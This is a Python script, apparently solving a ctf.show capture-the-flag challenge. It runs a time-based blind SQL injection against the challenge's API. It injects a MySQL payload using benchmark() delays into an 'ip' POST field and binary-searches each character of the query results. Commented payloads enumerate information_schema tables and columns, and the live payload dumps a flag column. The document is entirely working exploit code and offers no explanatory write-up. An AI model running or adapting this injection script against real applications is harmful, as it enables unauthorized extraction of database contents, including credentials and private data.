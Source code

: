 ```python
import requests
import time

url = "http://b5d4a386-1612-4c40-b14c-e9103a54188c.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxccb' limit 1,1"
        # 查数据
        payload = "select flagaabc from ctfshow_flagxccb"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},benchmark(1000000,sha(1)),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.33)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(1)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(1)
            head = mid + 1
        except Exception as e:
            time.sleep(1)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)
```
